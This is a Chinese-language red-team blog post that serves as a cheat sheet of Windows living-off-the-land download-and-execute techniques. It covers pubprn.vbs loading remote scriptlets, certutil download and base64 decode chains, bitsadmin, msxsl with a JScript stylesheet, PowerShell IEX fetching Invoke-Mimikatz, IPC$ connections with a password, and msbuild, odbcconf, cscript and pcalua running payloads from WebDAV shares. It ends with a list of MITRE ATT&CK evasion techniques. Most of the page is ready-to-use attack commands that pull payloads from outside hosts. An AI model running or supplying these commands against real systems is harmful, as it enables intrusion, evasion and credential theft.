<figure class="highlight html"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">在Windows 7以上版本存在一个名为pubprn.vbs的微软已签名WSH脚本，可以利用来解析.sct脚本："C:\Windows\System32\Printing_Admin_Scripts\zh-CN\pubprn.vbs" 127.0.0.1 script:https://gist.githubusercontent."C:\Windows\System32\Printing_Admin_Scripts\zh-CN\pubprn.vbs" 127.0.0.1 script:https://gist.githubusercontent.com/enigma0x3/64adf8ba99d4485c478b67e03ae6b04a/raw/a006a47e4075785016a62f7e5170ef36f5247cdb/test.sctcscript /b C:\Windows\System32\Printing_Admin_Scripts\zh-CN\pubprn.vbs 127.0.0.1  script:http://192.168.214.1:6677/sct.sct</span><br></pre></td></tr></table></figure>
<p>test.sct</p>
<figure class="highlight html"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line"><span class="php"><span class="meta">&lt;?</span>XML version=<span class="string">"1.0"</span><span class="meta">?&gt;</span></span><span class="tag">&lt;<span class="name">scriptlet</span>&gt;</span><span class="tag">&lt;<span class="name">registration</span>    <span class="attr">description</span>=<span class="string">"Bandit"</span>    <span class="attr">progid</span>=<span class="string">"Bandit"</span>    <span class="attr">version</span>=<span class="string">"1.00"</span>    <span class="attr">classid</span>=<span class="string">"&#123;AAAA1111-0000-0000-0000-0000FEEDACDC&#125;"</span>    <span class="attr">remotable</span>=<span class="string">"true"</span>    &gt;</span><span class="tag">&lt;/<span class="name">registration</span>&gt;</span><span class="tag">&lt;<span class="name">script</span> <span class="attr">language</span>=<span class="string">"JScript"</span>&gt;</span><span class="xml">&lt;![CDATA[        var r = new ActiveXObject("WScript.Shell").Run("calc.exe");]]&gt;</span><span class="tag">&lt;/<span class="name">script</span>&gt;</span><span class="tag">&lt;/<span class="name">scriptlet</span>&gt;</span></span><br></pre></td></tr></table></figure>
<h2><span id="certutil">certutil</span></h2><figure class="highlight html"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">用于备份证书服务，支持xp-win10都支持。由于certutil下载文件都会留下缓存，所以一般都建议下载完文件后对缓存进行删除。注：缓存目录为：”%USERPROFILE%\AppData\LocalLow\Microsoft\CryptnetUrlCache\Content”#下载文件certutil -urlcache -split -f http://192.168.28.128/imag/evil.txt test.php#删除缓存certutil -urlcache -split -f http://192.168.28.128/imag/evil.txt delete</span><br></pre></td></tr></table></figure>
<figure class="highlight html"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">base64应用,可以将exe base64编号后，通过命令行写进去，然后还原回来。certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 &amp; certutil -decode payload.b64 payload.dll &amp; C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil /logfile= /LogToConsole=false /u payload.dllcertutil -urlcache -split -f http://webserver/payload.b64 payload.b64 &amp; certutil -decode payload.b64 payload.exe &amp; payload.exe</span><br></pre></td></tr></table></figure>
<h2><span id="bitsadmin">bitsadmin</span></h2><figure class="highlight html"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">bitsadmin /transfer n http://192.168.28.128/imag/evil.txt d:\test\1.txt</span><br></pre></td></tr></table></figure>
<p>（只能命令下载到指定路径上，win7以上;使用bitsadmin的下载速度较慢）</p>
<h2><span id="regasmampregsvc">regasm&amp;regsvc</span></h2><figure class="highlight html"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /u \\webdavserver\folder\payload.dll</span><br></pre></td></tr></table></figure>
<p>不能URL， 只能UNC 、 Webdav</p>
<p></p>
<h2><span id="msxslexe">MSXSL.EXE</span></h2><p>需要单独下载安装，不合适。</p>
<figure class="highlight html"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">msxsl.exe是微软用于命令行下处理XSL的一个程序，所以通过他，我们可以执行JavaScript进而执行系统命令。下载地址为：https://www.microsoft.com/en-us/download/details.aspx?id=21714msxsl.exe 需要接受两个文件，XML及XSL文件，可以远程加载，具体方式如下：msxsl http://192.168.28.128/scripts/demo.xml http://192.168.28.128/scripts/exec.xslwin10,默认 安全设置不允许在此样式表内执行脚本代码。</span><br></pre></td></tr></table></figure>
<p></p>
<p>Demo.xml</p>
<figure class="highlight xml"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line"><span class="php"><span class="meta">&lt;?</span>xml version=<span class="string">"1.0"</span><span class="meta">?&gt;</span></span><span class="php"><span class="meta">&lt;?</span>xml-stylesheet type=<span class="string">"text/xsl"</span> href=<span class="string">"exec.xsl"</span> <span class="meta">?&gt;</span></span><span class="tag">&lt;<span class="name">customers</span>&gt;</span><span class="tag">&lt;<span class="name">customer</span>&gt;</span><span class="tag">&lt;<span class="name">name</span>&gt;</span>Microsoft<span class="tag">&lt;/<span class="name">name</span>&gt;</span><span class="tag">&lt;/<span class="name">customer</span>&gt;</span><span class="tag">&lt;/<span class="name">customers</span>&gt;</span></span><br></pre></td></tr></table></figure>
<p>exec.xsl</p>
<figure class="highlight xml"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line"><span class="php"><span class="meta">&lt;?</span>xml version=<span class="string">'1.0'</span><span class="meta">?&gt;</span></span><span class="tag">&lt;<span class="name">xsl:stylesheet</span> <span class="attr">version</span>=<span class="string">"1.0"</span><span class="attr">xmlns:xsl</span>=<span class="string">"http://www.w3.org/1999/XSL/Transform"</span><span class="attr">xmlns:msxsl</span>=<span class="string">"urn:schemas-microsoft-com:xslt"</span><span class="attr">xmlns:user</span>=<span class="string">"http://mycompany.com/mynamespace"</span>&gt;</span><span class="tag">&lt;<span class="name">msxsl:script</span> <span class="attr">language</span>=<span class="string">"JScript"</span> <span class="attr">implements-prefix</span>=<span class="string">"user"</span>&gt;</span>   function xml(nodelist) &#123;var r = new ActiveXObject("WScript.Shell").Run("cmd /c calc.exe");   return nodelist.nextNode().xml;   &#125;<span class="tag">&lt;/<span class="name">msxsl:script</span>&gt;</span><span class="tag">&lt;<span class="name">xsl:template</span> <span class="attr">match</span>=<span class="string">"/"</span>&gt;</span>   <span class="tag">&lt;<span class="name">xsl:value-of</span> <span class="attr">select</span>=<span class="string">"user:xml(.)"</span>/&gt;</span><span class="tag">&lt;/<span class="name">xsl:template</span>&gt;</span><span class="tag">&lt;/<span class="name">xsl:stylesheet</span>&gt;</span></span><br></pre></td></tr></table></figure>
<h2><span id="windows-wget">windows-wget</span></h2><figure class="highlight html"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">Windows环境下，可上传免安装的可执行程序wget.exe到目标机器，使用wget下载文件。wget.exe下载：https://eternallybored.org/misc/wget/wget -O "evil.txt" http://192.168.28.128/imag/evil.txt</span><br></pre></td></tr></table></figure>
<h2><span id="ftp">FTP</span></h2><figure class="highlight html"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">一般情况下攻击者使用FTP上传文件需要很多交互的步骤，下面这个 bash脚本，考虑到了交互的情况，可以直接执行并不会产生交互动作。ftp 127.0.0.1usernamepasswordget fileexit</span><br></pre></td></tr></table></figure>
<p>可以考虑脚本化自动下载功能</p>
<h2><span id="powershell">powershell</span></h2><figure class="highlight powershell"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">远程下载文件保存在本地：powershell IEX (<span class="built_in">New-Object</span> Net.WebClient).DownloadString(<span class="string">'https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'</span>); Invoke-Mimikatzpowershell -exec bypass -f \\webdavserver\folder\payload.ps1远程执行命令：powershell (<span class="built_in">new-object</span> System.Net.WebClient).DownloadFile( ‘http://<span class="number">192.168</span>.<span class="number">168.183</span>/<span class="number">1</span>.exe’,’C:\<span class="number">111111111111111</span>.exe’)powershell -w hidden -c (<span class="built_in">new-object</span> System.Net.WebClient).Downloadfile(<span class="string">'http://img5.cache.netease.com/photo/0001/2013-03-28/8R1BK3QO3R710001.jpg'</span>,<span class="string">'d:\\1.jpg'</span>)</span><br></pre></td></tr></table></figure>
<h2><span id="unc">UNC</span></h2><h3><span id="ipc">ipc$</span></h3><p>ipc$（net user）</p>
<figure class="highlight cmd"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">#建立远程IPC连接<span class="built_in">net</span> use \\<span class="number">192</span>.<span class="number">168</span>.<span class="number">28</span>.<span class="number">128</span>\ipc$ /user:administrator "abc123!"#复制远程文件到本地主机<span class="built_in">copy</span> \\<span class="number">192</span>.<span class="number">168</span>.<span class="number">28</span>.<span class="number">128</span>\c$\<span class="number">2</span>.txt D:\test</span><br></pre></td></tr></table></figure>
<h3><span id="copy">copy</span></h3><figure class="highlight cmd"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line"><span class="built_in">copy</span> \\x.x.x.x\xx\poc.exexcopy d:\test.exe  \\x.x.x.x\test.exe</span><br></pre></td></tr></table></figure>
<h3><span id="cmdexe">cmd.exe</span></h3><figure class="highlight html"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">cmd.exe /k <span class="tag">&lt; \\<span class="attr">webdavserver</span>\<span class="attr">folder</span>\<span class="attr">batchfile.txt</span></span></span><br></pre></td></tr></table></figure>
<p></p>
<h3><span id="msbuild">msbuild</span></h3><p>cmd /V /c “set MB=”C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe” &amp; !MB! /noautoresponse /preprocess \webdavserver\folder\payload.xml &gt; payload.xml &amp; !MB! payload.xml” </p>
<h3><span id="odbcconf">odbcconf</span></h3><figure class="highlight html"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">odbcconf /s /a &#123;regsvr \\webdavserver\folder\payload_dll.txt&#125;</span><br></pre></td></tr></table></figure>
<h3><span id="cscript">cscript</span></h3><figure class="highlight html"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">cscript //E:jscript \\webdavserver\folder\payload.txt</span><br></pre></td></tr></table></figure>
<h3><span id="pcalua">pcalua</span></h3><figure class="highlight html"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">pcalua.exe -a \\server\payload.dll</span><br></pre></td></tr></table></figure>
<h1><span id="参考">参考</span></h1><h2><span id="url">URL</span></h2><p><a href="https://www.cnblogs.com/xiaozi/p/12721960.html" target="_blank" rel="noopener">https://www.cnblogs.com/xiaozi/p/12721960.html</a></p>
<p><a href="https://www.cnblogs.com/backlion/p/7908563.html" target="_blank" rel="noopener">https://www.cnblogs.com/backlion/p/7908563.html</a></p>
<p><a href="https://blog.csdn.net/qq_27446553/article/details/78694506" target="_blank" rel="noopener">https://blog.csdn.net/qq_27446553/article/details/78694506</a></p>
<p><a href="https://docs.microsoft.com/en-us/windows/security/threat-protection/intelligence/fileless-threats" target="_blank" rel="noopener">https://docs.microsoft.com/en-us/windows/security/threat-protection/intelligence/fileless-threats</a> 无文件攻击</p>
<p><a href="https://paper.seebug.org/1103/" target="_blank" rel="noopener">https://paper.seebug.org/1103/</a>  ATT&amp;CK 之防御逃逸</p>
<table>
<thead>
<tr>
<th>战术</th>
<th>MITRE ATT&amp;CK链接</th>
</tr>
</thead>
<tbody>
<tr>
<td>XSL脚本代码代理执行</td>
<td><a href="https://attack.mitre.org/techniques/T1220/" target="_blank" rel="noopener">https://attack.mitre.org/techniques/T1220/</a></td>
</tr>
<tr>
<td>利用可信网络服务进行数据隐蔽传输</td>
<td><a href="https://attack.mitre.org/techniques/T1102/" target="_blank" rel="noopener">https://attack.mitre.org/techniques/T1102/</a></td>
</tr>
<tr>
<td>虚拟化和沙箱的检测</td>
<td><a href="https://attack.mitre.org/techniques/T1497" target="_blank" rel="noopener">https://attack.mitre.org/techniques/T1497</a></td>
</tr>
<tr>
<td>受信任的开发人员实用程序利用</td>
<td><a href="https://attack.mitre.org/techniques/T1127/" target="_blank" rel="noopener">https://attack.mitre.org/techniques/T1127/</a></td>
</tr>
<tr>
<td>时间戳伪装</td>
<td><a href="https://attack.mitre.org/techniques/T1099/" target="_blank" rel="noopener">https://attack.mitre.org/techniques/T1099/</a></td>
</tr>
<tr>
<td>PubPrn代理脚本代码执行</td>
<td><a href="https://attack.mitre.org/techniques/T1216/" target="_blank" rel="noopener">https://attack.mitre.org/techniques/T1216/</a></td>
</tr>
<tr>
<td>签名二进制程序代理执行</td>
<td><a href="https://attack.mitre.org/techniques/T1218/" target="_blank" rel="noopener">https://attack.mitre.org/techniques/T1218/</a></td>
</tr>
<tr>
<td>Regsvr32代理代码执行</td>
<td><a href="https://attack.mitre.org/techniques/T1117/" target="_blank" rel="noopener">https://attack.mitre.org/techniques/T1117/</a></td>
</tr>
<tr>
<td>进程注入</td>
<td><a href="https://attack.mitre.org/techniques/T1055/" target="_blank" rel="noopener">https://attack.mitre.org/techniques/T1055/</a></td>
</tr>
<tr>
<td>利用NTFS ADS进行数据隐藏</td>
<td><a href="https://attack.mitre.org/techniques/T1096/" target="_blank" rel="noopener">https://attack.mitre.org/techniques/T1096/</a></td>
</tr>
<tr>
<td>Mshta代理执行脚本代码</td>
<td><a href="https://attack.mitre.org/techniques/T1170/" target="_blank" rel="noopener">https://attack.mitre.org/techniques/T1170/</a></td>
</tr>
<tr>
<td>CHM文件隐藏代码执行</td>
<td><a href="https://attack.mitre.org/techniques/T1223/" target="_blank" rel="noopener">https://attack.mitre.org/techniques/T1223/</a></td>
</tr>
<tr>
<td>CMSTP配置文件参数利用</td>
<td><a href="https://attack.mitre.org/techniques/T1191/" target="_blank" rel="noopener">https://attack.mitre.org/techniques/T1191/</a></td>
</tr>
<tr>
<td>本机程序编译代码执行</td>
<td><a href="https://attack.mitre.org/techniques/T1500/" target="_blank" rel="noopener">https://attack.mitre.org/techniques/T1500/</a></td>
</tr>
<tr>
<td>额外窗口内存注入</td>
<td><a href="https://attack.mitre.org/techniques/T1181/" target="_blank" rel="noopener">https://attack.mitre.org/techniques/T1181/</a></td>
</tr>
<tr>
<td>间接命令执行</td>
<td><a href="https://attack.mitre.org/techniques/T1202/" target="_blank" rel="noopener">https://attack.mitre.org/techniques/T1202/</a></td>
</tr>
<tr>
<td>解码文件并执行</td>
<td><a href="https://attack.mitre.org/techniques/T1140/" target="_blank" rel="noopener">https://attack.mitre.org/techniques/T1140/</a></td>
</tr>
<tr>
<td>控制面板文件代码执行</td>
<td><a href="https://attack.mitre.org/techniques/T1196/" target="_blank" rel="noopener">https://attack.mitre.org/techniques/T1196/</a></td>
</tr>
<tr>
<td>入侵痕迹清除</td>
<td><a href="https://attack.mitre.org/techniques/T1070/" target="_blank" rel="noopener">https://attack.mitre.org/techniques/T1070/</a></td>
</tr>
<tr>
<td>文件加壳</td>
<td><a href="https://attack.mitre.org/techniques/T1045/" target="_blank" rel="noopener">https://attack.mitre.org/techniques/T1045/</a></td>
</tr>
<tr>
<td>修改文件权限</td>
<td><a href="https://attack.mitre.org/techniques/T1222/" target="_blank" rel="noopener">https://attack.mitre.org/techniques/T1222/</a></td>
</tr>
</tbody>
</table>
<h2><span id="init">INIT</span></h2><ol>
<li>命令本身可以接受一个HTTP URL作为其中一个参数；</li>
<li>命令接受一个UNC路径（指向一台WebDAV服务器）；</li>
<li>命令能够执行一个小型的内联脚本（脚本负责完成下载任务）；</li>
</ol>
<p>@subTee</p>

      
    </div>
    
  </div>
  
    
<nav id="article-nav">
  
    <a href="/2021/07/27/红队vs编程语言/" id="article-nav-newer" class="article-nav-link-wrap">
      <strong class="article-nav-caption">&lt;</strong>
      <div class="article-nav-title">
        
          红队vs编程语言
        
      </div>
    </a>
  
  
    <a href="/2019/02/16/红队体系化/" id="article-nav-older" class="article-nav-link-wrap">
      <div class="article-nav-title">红队体系化</div>
      <strong class="article-nav-caption">&gt;</strong>
    </a>
  
</nav>

  
</article>


</div>
      <footer id="footer">
  <div class="outer">
    <div id="footer-info">
      <div class="footer-left">
        &copy; 2023 sm0nk
      </div>
        <div class="footer-right">
          <a href="http://hexo.io/" target="_blank">Hexo</a>  Theme <a href="https://github.com/smackgg/hexo-theme-smackdown" target="_blank">Smackdown</a>
        </div>
    </div>
  </div>
</footer>
    </div>
    
  <link rel="stylesheet" href="/fancybox/jquery.fancybox.css">


<script>
	var yiliaConfig = {
		fancybox: true,
		mathjax: true,
		animate: true,
		isHome: false,
		isPost: true,
		isArchive: false,
		isTag: false,
		isCategory: false,
		open_in_new: true
	}
</script>
<script src="/js/main.js"></script>


<script type="text/x-mathjax-config">
MathJax.Hub.Config({
    tex2jax: {
        inlineMath: [ ['$','$'], ["\\(","\\)"]  ],
        processEscapes: true,
        skipTags: ['script', 'noscript', 'style', 'textarea', 'pre', 'code']
    }
});

MathJax.Hub.Queue(function() {
    var all = MathJax.Hub.getAllJax(), i;
    for(i=0; i < all.length; i += 1) {
        all[i].SourceElement().parentNode.className += ' has-jax';                 
    }       
});
</script>

<script src="//cdn.bootcss.com/mathjax/2.7.0/MathJax.js"></script>


  </div>
</body>
</html>